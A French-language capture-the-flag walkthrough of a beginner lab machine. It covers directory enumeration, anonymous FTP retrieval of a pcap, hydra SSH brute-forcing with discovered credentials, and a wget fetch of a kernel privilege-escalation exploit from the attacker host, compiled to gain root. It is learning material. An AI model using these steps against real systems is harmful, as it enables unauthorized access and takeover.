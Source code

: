 TAGS : #WEB 
Legion (kali)
![[Pasted image 20231130084334.png|900]]

## Site web : 
![[Pasted image 20231130084420.png]]

# Découvertes de base : 
## Dirbuster : 
#### /secret/ : 
![[Pasted image 20231130085118.png]]
### /#wp-config.php\# : 
![[Pasted image 20231130085447.png]]

### /robots.txt : 


![[Pasted image 20231130085255.png]]


### <u><font style="color:red"> pas / peu interessant pour le moment, on passe à la suite</font></u>
# FTP : 
Logins:
-->ftp : ftp
-->ftp : b1uRR3
--> anonymous login

donc : 
	ftp 192.168.56.101
	USER anonymous
	dir
	get lol.pcap
Ensuite on quitte ftp 
	wireshark lol.pcap
	file->export objects->ftp-data ( = secret_stuff.txt )
	ou *tcpdump -nttttAr lol.pcap*
![[Pasted image 20231130090748.png]]
## Test web avec /sup3rs3cr3tdirlol/ : 

![[Pasted image 20231130090853.png]]

## Utilisation de la commande strings sur le fichier ( pour lire un fichier binaire ou executable ) : 

	strings roflmao

![[Pasted image 20231130091351.png]]
Adresse mémoire donc debugger oou assembleur mais ici machine débutante donc non ..
## Vérification site web : 
![[Pasted image 20231130091546.png]]
## Contenu des pages :
![[Pasted image 20231130091721.png]]
![[Pasted image 20231130091728.png]]

On dispose d'une liste d'utilisateur et un mot de passe, on essaye de se connecter à la machine avec SSH 
	hydra -L users -p pass 192.168.56.101 ssh --> Erreur car trop de requête, on supprime le début puis on retente
	Aucun mot de passe trouvé..
	Retour sur les deux pages web, vérification du code source, rien 




	![[Pasted image 20231130093909.png]]
	192.168.56.101/0x0856BF/this_folder_contains_the_password/***Pass.txt***

On repense au nom de la machine (troll) et on suis la logique du fichier ( ce_dossier_contient_le_mdp/***xxxx.txt***)
On ajoute Pass.txt à la liste des mots de passes et on retente.
Erreur ( trop de requêtes ) puis on retente comme avant en retirant une partie des mot de passes

![[Pasted image 20231130094106.png]]


### <strong><font style="color:red"  font size=4px>🟡🔰<u>élévation de privilèges</u>🔰🟡  </font></strong> 

Test si l'utilisalateur est dans les sudoers 
	sudo su

Récup version Linux : 
	uname -a
	
![[Pasted image 20231130111025.png]]
Recherche d'exploits pour la version de linux 
	searchsploit Linux 3.13 Privilege Escalation
	![[Pasted image 20231130111222.png]]

Copie de l'exploit 37292.c dans un serveur web ( machine attaquante )
	sudo cp /usr/share/exploitdb/exploits/linux/local/37292.c /var/www/
Lancer apache

Sur la session ssh : 
	wget http://192.168.56.102/37292.c

![[Pasted image 20231130111900.png]]

Compilation et lancement du script : 
![[Pasted image 20231130111958.png]]
On est bien root.

  # <strong><font style="color:red"  font size=7px>🔴🎯<u>FLAG</u>🔴🎯 </font></strong> 

cd root
ls 
cat proof.txt 
> ![[Pasted image 20231130112216.png]]